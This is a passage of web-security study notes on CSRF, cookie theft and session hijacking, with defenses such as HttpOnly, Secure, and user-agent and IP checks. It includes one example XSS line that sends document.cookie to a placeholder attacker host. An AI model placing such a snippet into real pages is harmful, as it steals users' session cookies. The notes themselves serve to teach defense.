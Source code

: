   * **Use CSRF protections (token, timestamp)**

--------------------------------------------------------------------------------
Cookie visibility and theft
--------------------------------------------------------------------------------

= cookie data is visible to users

= cookies can be stolen using XSS attack 
``` 'http://hacker.com?steal=' + document.cookie ```

= cookies can be sniffed by observing network traffic 
  * from request headers

Defense:

  * **Only put non-sensitive data in cookies** - e.g. language preference

  * **Use *HttpOnly* header attribute**

     * = expose cookies only over HTTP/HTTPS

      * makes cookies unavailable to JS 'document.cookie' - prevents XSS

  * **Use *Secure* header attribute** over HTTPS

      * = use cookies only over secure/encrypted connections

      * e.g. hacker can send request over HTTP

--------------------------------------------------------------------------------
Session hijacking
--------------------------------------------------------------------------------

Similar to cookie theft but much more valuable.

Session vs. cookie

  * We store sensitive information on the server and send browser a cookie with 
    a session ID to reference that information.

  * Information is safer because it is never sent to the browser.
 
Used to 

  * assume your identity and logged in status

  * steal personal info, change password

Often done by network eavesdropping

  * Very easy on open wireless networks at coffe shops! Download software 
    and voila

Defense    

* Save 'user agent' string in session and confirm it 

  * e.g. if user logs in with a certain version of Firefox, then expect all 
    future requests to also be from Firefox - if not, prompt to log-in again

  * header can be modified, so it's **weak**

* Check IP adress

```